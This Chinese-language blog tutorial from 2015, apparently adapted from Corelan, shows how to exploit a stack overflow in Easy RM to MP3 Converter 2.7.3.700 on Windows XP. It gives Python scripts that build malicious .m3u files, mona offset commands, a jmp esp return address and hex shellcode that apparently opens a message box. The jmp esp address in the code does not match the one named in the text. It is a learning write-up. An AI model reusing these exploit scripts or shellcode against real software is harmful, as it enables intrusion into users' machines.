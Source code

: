 title: exploit编写教程1：基于栈的溢出
date: 2015-12-15 21:21:14
tags: 
- 缓冲区溢出
- exploit 编写
categories: exploit 编写
---
一直都想系统学习exploit编写，最近找到个不错的网站[Corelan Team](https://www.corelan.be/),准备按照上面的教程学习，这是第一篇古老的buffer overflow
<!-- more -->

# Ⅰ、试验环境
- 测试平台： Microsoft Windows XP SP3
- 漏洞软件：Easy RM to MP3 Converter（版本2.7.3.700）
- 分析工具：Immunity Debugger
- 漏洞描述：通过创建一个恶意的.m3u文件将触发Easy RM to MP3 Converter (version 2.7.3.700)缓冲区溢出利用。

# Ⅱ、漏洞触发
我选用Python语言编写脚本，首先构造一个30000个字符的.m3u文件，前面25000全为’A’，后5000个为’B’。
```
#!/usr/bin/python
filename = "test.m3u"
f = open(filename,'w')
data = 'A' * 25000 + 'B' * 5000
f.write(data)
f.close()
```
使用Easy RM to MP3 Converter加载这个crash.m3u文件，出错，信息如下：

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez0oss5wf7j30e5050759.jpg)

从上图可知，溢出之后的返回地址是0x42424242，也就是’BBBB’，这说明要覆盖的EIP在25000到30000之间。下面使用Immunity的查件mona来进行精确定位。

# Ⅲ、EIP定位
使用Immunity Debugger -> open -> RM2MP3Converter.exe ，F9运行，然后点击load -> test.m3u
回到Immunity Debugger，创建包含5000个字符的pattern
在命令行输入：
```
!mona pattern_create 5000
```

![](http://ww4.sinaimg.cn/large/005CA6ZCgw1ez0oyoodoej30i00dd0wn.jpg)

从Log data中可知，pattern文件在C:\D\mona-master\output\RM2MP3Converter\pattern.txt，
提取出生成的5000个字符文件，放入p.txt，并替换crash.m3u中最后5000个字符。脚本如下：
```
#!/usr/bin/python
filename = "test_pattern.m3u"
f = open(filename,'w')
data = 'A' * 25000
	
fp = open("p.txt",'r')
data += fp.read()
f.write(data)
f.close()
```

再次打开目标软件加载test_pattern.m3u，程序崩溃：

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez0p2ebjfwj30e6040q3n.jpg)

此时EIP为：386b4237
在命令行输入：
```
!mona pattern_offset 386b4237
```

![](http://ww1.sinaimg.cn/large/005CA6ZCgw1ez0p476wlpj30mm0cp0wk.jpg)

我们看到EIP被修改的位置是25000 + 1103。
此时我们再用如下脚本测试一下位置是否正确：
```
#!/usr/bin/python
filename = "test.m3u"
f = open(filename,'w')
data = 'A' * 26103 + 'B' * 4 + 'C'*100
f.write(data)
f.close()
```

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez0p83itkrj30e503ymxw.jpg)

我们可以看到，EIP现在是4个B，偏移正确，下面就是如何修改 EIP

# Ⅳ、寻找shellcode存放的地址空间
再次使用上面.m3u文件，崩溃时，打开栈的窗口

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez0pbcdfiqj30ap0cfdhq.jpg)

我们看到在ESP此时为000FF730，EIP到这里还有4个字节。ESP开始用于存放shellcode。

# V、查找jmp esp地址
再次加载目标程序，F9之后Pause，在CPU窗口，右键 Search For ->All commands in All modules，在之后的窗口输入jmp esp。

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1ez0pcw5iv0j30mx03uabs.jpg)

选一个7C874413（地址随便选，没有影响）。

# Ⅵ、构造最终的输入文件
```
#!/usr/bin/python
shellcode = ("\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
"\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
"\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
"\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
"\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
"\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
"\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
"\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
"\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
"\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
"\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
"\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
"\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
"\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
"\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
"\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
"\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
"\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
"\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
"\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
"\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
"\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
"\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
"\x40\xFF\x54\x24\x40\x57\xFF\xD0");
	
ret = "\x7B\x46\x86\x7C";
filename = "crash.m3u"
f = open(filename,'w')
data = 'A' * 26103 + ret + '\x90' * 4 + shellcode
f.write(data)
f.close()
```
使用Easy RM to MP3 Converter加载这个crash.m3u文件，OK，成功了！！！

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1ez0pdv48mlj30bo04cwez.jpg)

# Ⅶ、参考文献
<https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/>
[exploit编写笔记1——基于栈的溢出](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2014/03/16/exploit-buffer-overflow/)



